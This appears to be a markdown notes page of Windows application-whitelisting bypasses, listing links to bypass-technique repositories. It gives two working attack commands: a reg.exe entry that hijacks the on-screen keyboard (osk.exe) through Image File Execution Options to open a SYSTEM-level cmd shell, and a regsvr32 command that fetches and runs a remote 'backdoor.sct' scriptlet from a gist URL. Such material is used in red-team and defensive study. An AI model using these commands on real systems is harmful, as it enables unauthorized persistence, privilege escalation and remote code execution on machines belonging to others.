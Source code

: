 # Bypasses

## Application Whitelisting


[Application Whitelist Auditor - Airlock Digital](https://www.airlockdigital.com/application-whitelisting-auditor/)

[AllTheThings - SubTee](https://github.com/subTee/AllTheThings)

[Bypass Techniques - SubTee](https://github.com/subTee/ApplicationWhitelistBypassTechniques)

## Native Utilities

### Reg.exe

Create a registry entry on the host, allowing a system-level shell to be invoked any time that the osk.exe (on screen keyboard) process is called:

    reg.exe add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe" /v "Debugger" /t REG_SZ /d "cmd.exe" /f

### Regsvr32 + sct file + powershell encoded command

This is based on @SubTee sct bypass  - https://github.com/subTee/SCTPersistence

    regsvr32.exe /s https://gist.githubusercontent.com/MHaggis/31a1d0efd882d048436aeb7b9fd7f6d0/raw/b96dc20465abfeed3f05ba56b28e2ff91c398606/backdoor.sct

